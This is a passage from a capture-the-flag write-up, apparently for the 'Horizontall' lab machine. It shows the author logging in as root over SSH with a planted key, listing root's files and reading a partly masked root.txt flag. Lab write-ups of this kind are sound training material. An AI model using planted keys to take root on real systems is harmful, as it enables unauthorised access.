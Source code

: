 We can see that it was successful!

Our next step is to simply SSH into the target host as the root user using our `key` file from the SSH key pair we generated earlier.

```zsh
0x3ds@kali $ ssh -i key root@10.129.235.221

Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-154-generic x86_64)
<SNIP>
Last login: Mon Aug 23 11:43:44 2021 from 10.10.14.6
root@horizontall:~#
```

Now that we have compromised the `root` account, we can perform any post exploitation activities we wish.

After enumerating the target host further, we are able to locate the `root.txt` flag! 

```zsh
root@horizontall:~# ls -l

total 16
-rwxr-xr-x 1 root root 185 May 28  2021 boot.sh
-rw-r--r-- 1 root root   6 Oct 20 15:10 pid
-rw-r--r-- 1 root root 384 Jul 29  2021 restart.sh
-r-------- 1 root root  33 Oct 20 11:42 root.txt
```

We can attempt to read the contents of the file to obtain the flag

```zsh
root@horizontall:~# cat root.txt

c691a***************************
```

From this we have been able to successfully obtain the `root.txt` flag!

> **Answer: `c691a***************************`**
{: .prompt-tip }
